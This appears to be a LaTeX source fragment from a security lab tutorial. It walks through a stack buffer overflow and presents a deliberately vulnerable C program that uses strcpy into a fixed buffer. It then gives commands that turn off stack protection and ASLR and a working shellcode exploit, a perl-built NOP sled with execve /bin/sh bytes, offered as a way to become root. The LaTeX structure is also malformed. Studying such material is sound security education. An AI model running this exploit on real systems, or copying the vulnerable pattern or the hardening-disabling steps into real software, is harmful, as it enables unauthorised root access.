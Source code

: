 \documentclass{article}
\begin{document}
\begin{itemize}
\begin{enumerate}
        To do so, write a vulnerable code, such as:
        \begin{verbatim}
#include <stdio.h> 
#include <string.h>
void reply(char *argv) {
   char buf[256];
   strcpy(buf,argv);
   puts(buf);
}
int main(int argc, char* argv[]) {
    if(argc != 2) printf("Usage: ./echo-prompt <arg1>\n");
    else          reply(argv[1]);
    return(0);
}
\end{verbatim}
    You can use another code of course.
    \item And compile it without any protection since you want to exploit it:
    \begin{center}
        \lstinline{gcc -g -fno-stack-protector -z execstack vulnerable.c -o vulnerable_file}
    \end{center}
    We also need to disable ASLR with
    \begin{center}
        \lstinline{/proc/sys/kernel/randomize_va_space // put 0}
    \end{center}
    \item Everything is now ready, perform the buffer overflow and inject the shellcode to become root: (all calculation step for this part is skipped, but the following one work for me)
    \begin{verbatim}
./vulnerable_file  `perl -e 'print "\x90"x220 .
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89
    \xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"  
    . "\x90\xf1\xff\xbf"'` 
\end{verbatim}

     \begin{center}
            \includegraphics[scale=0.6]{image/12-noroot.PNG}
        \end{center}
        

\end{enumerate}
\end{itemize}
\end{document}
